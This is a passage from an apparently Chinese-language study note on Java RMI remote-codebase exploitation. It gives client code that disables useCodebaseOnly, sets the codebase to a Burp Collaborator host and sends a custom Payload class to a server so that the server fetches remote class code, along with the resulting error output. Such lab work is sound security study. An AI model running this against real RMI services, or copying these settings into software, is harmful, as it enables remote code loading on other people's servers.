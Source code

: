Client部分（确保与Server的classpath不同）

```java
// HelloClient.java
package rmiT;

import java.io.Serializable;
import java.rmi.Naming;
import java.util.ArrayList;
import java.util.List;

public class HelloClient implements Serializable {
    public class Payload extends ArrayList<Integer>{}
    public void lookup() throws Exception{
        ICalc r = (ICalc) Naming.lookup("rmi://192.168.31.175:9093/refobj");
        List<Integer> li = new Payload();
        li.add(3);
        li.add(4);
        System.out.println(r.sum(li));
    }

    public static void main(String[] args) throws Exception{
        System.setProperty("java.rmi.server.useCodebaseOnly","false");
        System.setProperty("java.security.policy","E:\\JavaStudy\\test01\\client.policy");
        System.setProperty("java.rmi.server.codebase","http://nxo90f9obuj1boi0bzbdanmca3gt4i.burpcollaborator.net/");
        if(System.getSecurityManager() == null){
            System.out.println("Setup SecurityManager");
            System.setSecurityManager(new SecurityManager());
        }
        new HelloClient().lookup();
    }
}


// Icalc.java
package rmiT;

import java.rmi.Remote;
import java.rmi.RemoteException;
import java.util.List;

public interface ICalc extends Remote {
    public Integer sum(List<Integer> params)throws RemoteException;
}
```

运行CalcServer和HelloClient，会看到client的报错

```
Exception in thread "main" java.lang.ClassFormatError: Incompatible magic value 1013478509 in class file server/ICalc
```
